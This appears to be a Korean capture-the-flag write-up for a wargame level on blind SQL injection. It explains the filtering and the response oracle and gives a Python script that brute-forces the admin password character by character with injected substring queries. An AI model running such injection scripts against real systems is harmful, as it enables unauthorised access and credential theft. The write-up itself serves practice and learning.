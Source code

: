 
## level 22 - Blind SQL injection
SQL 명령어들이 필터링 되어있어 단순한 SQL injection 공격을 수행할 수 없다. 페이지 소스를 보면 id : guest, pw : guest라는 예시가 주어지고, admin 계정의 password를 알아내야 한다는 것을 알 수 있다. guest/guest로 로그인을 시도하면 OK guest라는 문자가 출력된다. 즉, 입력한 데이터가 올바르면 서버는 OK라는 문자를 포함한 폼을 전송한다는 것을 알 수 있다. Blind SQL injection 공격을 수행한다. 필터링 되지 않는 substring 명령어를 통해 DB의 사용자 정보 테이블에서 pw 속성값을 알아낸다. id 필드에 admin' and substring(pw,1,1)='a'—와 같이 쿼리문이 포함된 데이터를 넘겨주면서 서버의 응답을 확인하는 방식으로 공격을 수행한다


```python
import requests

login_url = 'http://suninatas.com/member/mem_action.asp'
with requests.Session() as s:
    main_login = {'Hid': '', 'Hpw':..'}

    main_login_req = s.post(login_url, data=main_login)

    if main_login_req.status_code != 200:
        raise Exception('connection error')
    
    #로그인 세션 유지

    password = ''
    log = ''
    level22 = 'http://suninatas.com/Part_one/web22/web22.asp'

    login = {'id':'', 'pw':1234} # login data

    # blind sql injection query
    str1 = "admin' and substring(pw,"
    column = 1
    str2 = ",1)='"
    alphabet = 32 # space
    str3 = "'--"

    while(column <= 10): # loop for column
        log += 'column : ' + str(column) + '\n'
        while(alphabet <= 126): # loop for alphabet
            # upper case
            str_id = str1 + str(column) + str2 + chr(alphabet) + str3
            login['id'] = str_id
            req = s.post(level22, data=login)
            log += 'query : ' + str_id + '\n'
            if 'OK' in req.text:
                password += chr(alphabet)
                break
            
            alphabet += 1
        log += 'password : ' +  str(password) + '\n'
        alphabet = 32
        column += 1
    with open('level22.txt', 'w') as f:
        f.write(log)
    print('done')
 ```
 